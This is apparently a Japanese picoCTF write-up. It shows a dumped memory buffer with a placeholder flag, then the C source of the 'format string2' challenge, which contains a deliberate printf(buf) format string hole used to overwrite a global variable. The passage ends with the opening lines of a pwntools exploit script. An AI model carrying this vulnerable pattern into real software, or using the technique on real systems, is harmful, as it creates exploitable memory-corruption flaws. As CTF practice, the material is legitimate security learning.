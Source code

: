 *output2:*
```
b'\x10\x1a\xa4\xf8\xfd\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\t\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb0*6[\xc8z\x00\x00\x00\x00\x00\x00\xfd\x7f\x00\x008\x1c\xa4\xf8\xfd\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x1c\xa4\xf8\xfd\x7f\x00\x00picoCTF{fake_local_flag}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb7w5[\xc8z\x00\x00\x8066[\xc8z\x00\x00'
```
## format string2
ソースコードが渡された。
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
format stringで`sus`の値を改変できれば良い。
pwntoolsを使って自動化した。
```python
#!/usr/bin/env python

import pwn
import sys

exe = pwn.ELF("./vuln")
pwn.context.binary = exe


def connect(remote: bool):
    if remote:
```
